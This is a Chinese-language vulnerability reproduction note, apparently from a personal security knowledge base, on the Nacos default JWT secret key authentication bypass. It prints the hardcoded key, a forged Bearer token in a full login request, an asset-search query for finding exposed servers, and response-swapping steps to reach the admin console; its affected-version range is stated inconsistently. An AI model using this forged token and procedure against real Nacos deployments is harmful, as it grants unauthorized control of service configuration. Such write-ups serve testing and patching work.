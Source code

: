 # Nacos默认key导致权限绕过登陆漏洞

# 一、漏洞简介
<font style="color:rgb(63, 63, 63);">Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。</font><font style="color:rgba(0, 0, 0, 0.9);">Nacos中发现影响Nacos <= 2.1.0的问题，</font><font style="color:rgb(51, 51, 51);">nacos在默认情况下未对token.secret.key进行修改，导致攻击者可以绕过密钥认证进入后台。</font>

# <font style="color:rgb(51, 51, 51);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">0.1.0 <= Nacos <= 2.2.0</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="Nacos"`
+ 特征

![1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937.png](./img/LOnCocDcUxyM3hX0/1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937-478295.png)

# 四、漏洞复现
1. <font style="color:rgb(51, 51, 51);">Nacos的token.secret.key值是固定死的</font>

```plain
nacos/conf/application.properties   //位于该文件中

SecretKey012345678901234567890123456789012345678901234567890123456789
```

2. 构造JWT

![1706099878073-f9c28eee-f92e-45b8-a9b6-91a32ac4d665.png](./img/LOnCocDcUxyM3hX0/1706099878073-f9c28eee-f92e-45b8-a9b6-91a32ac4d665-712417.png)

3. <font style="color:rgb(51, 51, 51);">构造数据包获取accesstoken</font>

```plain
POST /nacos/v1/auth/users/login HTTP/1.1
Host: 
Content-Length: 28
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6NDA3MDk1MzY0M30.XPfd1WnNHqQdu5-D734ishsizYCEbsQG7mVwdm4MyWg
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=nacos&password=1111
```

![1706099933954-9f0cd917-8496-4902-85be-b27384144f06.png](./img/LOnCocDcUxyM3hX0/1706099933954-9f0cd917-8496-4902-85be-b27384144f06-367564.png)

4. 登录系统

<font style="color:rgb(51, 51, 51);">将返回包内容全部复制，然后在登陆时抓包，拦截返回包替换，然后发包即可登录后台</font>

<font style="color:rgb(51, 51, 51);">在账号密码错误的情况下返回包为403</font>

![1706100054649-9f5b4daa-8e47-417b-9bc2-066fa69a952c.png](./img/LOnCocDcUxyM3hX0/1706100054649-9f5b4daa-8e47-417b-9bc2-066fa69a952c-448988.png)

<font style="color:rgb(51, 51, 51);">将拦截的返回包替换为之前的返回包内容</font>

![1706100091608-5358f465-fbf8-4d00-a8c0-495b4b9da471.png](./img/LOnCocDcUxyM3hX0/1706100091608-5358f465-fbf8-4d00-a8c0-495b4b9da471-231976.png)

<font style="color:rgb(51, 51, 51);">发包之后成功登录后台</font>

![1706100115758-2cc1be63-70c6-4198-8c44-bf6fc2e8d617.png](./img/LOnCocDcUxyM3hX0/1706100115758-2cc1be63-70c6-4198-8c44-bf6fc2e8d617-715031.png)



> 更新: 2024-10-28 15:59:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pg7g9r320fwlmxap>